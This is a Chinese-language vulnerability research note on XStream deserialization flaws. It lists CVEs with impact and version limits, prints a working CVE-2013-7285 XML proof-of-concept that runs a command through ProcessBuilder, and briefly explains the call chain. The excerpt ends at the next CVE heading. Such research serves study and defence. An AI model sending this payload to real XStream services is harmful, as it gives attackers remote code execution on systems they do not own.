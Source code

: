 # 简介

当用户可控的输入直接作为xstream.fromXML(xml)的参数时，可能导致反序列化漏洞，目前为止涉及的cve如下：

|CVE ID |	PoC           |desc| 
| ---- | ---- | ---- | 
|CVE-2013-7285  |RCE | <= 1.4.6|
|CVE-2019-10173 |RCE | <= 1.4.10|
|CVE-2021-39139	| RCE           | JDK版本要在7u21及以下 |
|CVE-2021-39140	| DoS           |        |
|CVE-2021-39141	| JNDI Based RCE|        |
|CVE-2021-39144	| RCE           | 无限制  |    
|CVE-2021-39145	| JNDI Based RCE|        |
|CVE-2021-39146	| JNDI Based RCE|        |
|CVE-2021-39147	| JNDI Based RCE|        |
|CVE-2021-39148	| JNDI Based RCE|        |
|CVE-2021-39149	| RCE           | 无限制  |
|CVE-2021-39150	| SSRF          |        |
|CVE-2021-39151	| JNDI Based RCE|        |
|CVE-2021-39152	| SSRF          |        |
|CVE-2021-39153	| RCE           | JDK版本限制在8到14且要求同时安装了JavaFX |
|CVE-2021-39154	| JNDI Based RCE|        |



## CVE-2013-7285

poc:

```
<sorted-set>
    <string>foo</string>
    <dynamic-proxy> <!-- Proxy 动态代理，handler使用EventHandler -->
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>open</string>
                    <string>calc</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

### CVE-2013-7285原理
调用链的DynamicProxyConverter#unmarshal方法中，会调用到Proxy.newProxyInstance(this.classLoaderReference.getReference(), interfacesAsArray, handler)，java动态代理机制，


## CVE-2021-39139